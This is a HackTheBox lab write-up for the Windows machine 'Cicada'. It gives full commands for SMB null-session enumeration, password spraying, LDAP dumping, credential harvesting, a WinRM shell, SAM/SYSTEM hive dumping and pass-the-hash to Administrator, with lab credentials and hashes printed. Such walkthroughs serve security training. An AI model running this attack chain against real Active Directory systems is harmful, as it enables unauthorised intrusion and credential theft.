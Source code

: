 ```markdown
# 🦋 HTB: Cicada

**Machine Info:**
- **Platform**: [HackTheBox](https://www.hackthebox.com)  
- **IP**: `10.129.198.41`  
- **OS**: [Windows](https://en.wikipedia.org/wiki/Microsoft_Windows)  
- **Difficulty**: [Easy](https://www.hackthebox.com/home/machines/profile/366)  
- **Exploits Used**:
  - Null‑session SMB enumeration 🗂️  
  - Password spray via `netexec` 🔧  
  - LDAP dump with `ldapdomaindump` 📋  
  - SMB share discovery & credential harvest 🔍  
  - WinRM shell with `evil-winrm` 🪓  
  - Priv‑Esc: `SeBackupPrivilege` → `reg save` → `impacket‑secretsdump` → Pass‑the‑Hash  

---

## 🕵️ Recon

```bash
# fast full-port + default scripts
sudo nmap -sC -sV -p- 10.129.198.41 -oA nmap/cicada

# check null‑session SMB shares
nxc smb 10.129.198.41 -u guest -p '' --shares
```

- **SMB** (445) – null‑session allows listing `HR` share
- **Kerberos** (88), **LDAP** (389/636/3268/3269), **WinRM** (5985)

---

## 💥 Initial Foothold

1. **SMB null‑session → HR share**  
   ```bash
   smbclient //10.129.198.41/HR -U guest
   smb: \> get "Notice from HR.txt"
   ```
2. **Notice from HR.txt** contains default password  
   ```
   Cicada$M6Corpb*@Lp#nZp!8
   ```
3. **RID‑brute** to enumerate users  
   ```bash
   nxc smb 10.129.198.41 -u guest -p '' --rid-brute > rids.txt
   awk -F'\\\\|\\(' '{print $2}' rids.txt | tail -n +5 > users.txt
   ```
4. **Password spray** against user list  
   ```bash
   nxc smb 10.129.198.41 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' \
     --continue-on-success
   ```
   → **michael.wrightson** authenticated ✅

5. **LDAP dump** with valid creds  
   ```bash
   ldapdomaindump -u cicada.htb\\michael.wrightson \
     -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.198.41 -o ldapdump
   ```
6. **Found `david.orelious` password** in LDAP attribute →  
   `aRt$Lp#7t*VQ!3`

---

## 🔍 Pivot & Credential Harvest

1. **SMB with `david.orelious`**  
   ```bash
   smbclient //10.129.198.41/DEV -U david.orelious
   smb: \> get Backup_script.ps1
   ```
2. **Backup_script.ps1** reveals **`emily.oscars:Q!3@Lp#M6b*7t*Vt`**  
3. **WinRM shell as Emily**  
   ```bash
   evil-winrm -i 10.129.198.41 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
   ```
4. **Grab user flag**  
   ```powershell
   type C:\Users\emily.oscars.CICADA\Desktop\user.txt
   # => d333d*********************
   ```

---

## 🚀 Privilege Escalation

1. **Check Emily’s privileges**  
   ```powershell
   whoami /priv
   # SeBackupPrivilege          Enabled
   # SeRestorePrivilege         Enabled
   ```
2. **Dump SAM & SYSTEM hives**  
   ```powershell
   mkdir C:\temp
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```
3. **Download hives to Kali**  
   ```powershell
   download C:\temp\sam.hive
   download C:\temp\system.hive
   ```
4. **Extract NT hashes**  
   ```bash
   impacket-secretsdump -sam sam.hive -system system.hive local
   # Administrator:500:…:2b87e7c93a3e8a0ea4a581937016f341
   ```
5. **Pass‑the‑hash as Administrator**  
   ```bash
   impacket-psexec cicada.htb/Administrator@10.129.198.41 \
     -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
   ```
6. **Get SYSTEM shell & root flag**  
   ```powershell
   type C:\Users\Administrator\Desktop\root.txt
   # => 84702***********************
   ```

---

## 🎉 Results

- **User flag**: `d333d*********************`  
- **Root flag**: `84702***********************`  

---

## 🛠 Tools & References

- **SMB & Kerberos**: `nmap`, `netexec`, `smbclient`  
- **LDAP dump**: [ldapdomaindump](https://github.com/BloodHoundAD/ldapdomaindump)  
- **WinRM**: [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)  
- **Priv‑Esc**: [`impacket`](https://github.com/SecureAuthCorp/impacket)  

✌️ Happy hacking!